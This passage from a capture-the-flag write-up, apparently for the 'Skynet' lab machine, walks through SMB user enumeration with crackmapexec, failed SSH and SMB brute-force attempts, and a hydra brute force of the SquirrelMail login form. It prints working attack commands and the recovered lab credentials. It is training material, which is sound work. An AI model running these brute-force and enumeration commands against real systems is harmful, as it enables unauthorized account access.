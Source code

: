 Seems like passwords


#### Bruteforce squirrelmail web service

Enumerate users from smb

```bash
┌──(kali㉿kali)-[~/…/results/10.10.67.8/scans/tcp445]
└─$ cme smb 10.10.131.237 --users
SMB         10.10.131.237   445    SKYNET           [*] Windows 6.1 (name:SKYNET) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.131.237   445    SKYNET           [-] Error enumerating domain users using dc ip 10.10.131.237: socket connection error while opening: [Errno 111] Connection refused
SMB         10.10.131.237   445    SKYNET           [*] Trying with SAMRPC protocol
SMB         10.10.131.237   445    SKYNET           [+] Enumerated domain user(s)
SMB         10.10.131.237   445    SKYNET           \milesdyson
SMB         10.10.131.237   445    SKYNET           [+] Enumerated domain user(s)
SMB         10.10.131.237   445    SKYNET           \milesdyson
```

Tried bruteforce smb and ssh, both failed

- `cme smb 10.10.67.8 -u milesdyson -p log1.txt`
- `hydra -l milesdyson -P log1.txt ssh://10.10.67.8`

Brute force `/squirrelmail` in http

```bash
hydra -l "milesdyson" -P results/10.10.67.8/loot/logs/log1.txt -e nsr -s 80 -o "/home/kali/thm/skynet/results/10.10.67.8/scans/tcp80/tcp_80_http_form_hydra.txt" http-post-form://10.10.131.237/squirrelmail/src/redirect.php:"login_username=^USER^&secretkey=^PASS^":"Unknown user or password incorrect"
```

![](/assets/obsidian/d2bdd3cc60e2c719dfcede91e9a14caf.png)

> Creds: `milesdyson`:`cyborg007haloterminator`

Login success

![](/assets/obsidian/7025ba68262c5d1a2ed81296f9db3a20.png)


### What is the hidden directory?
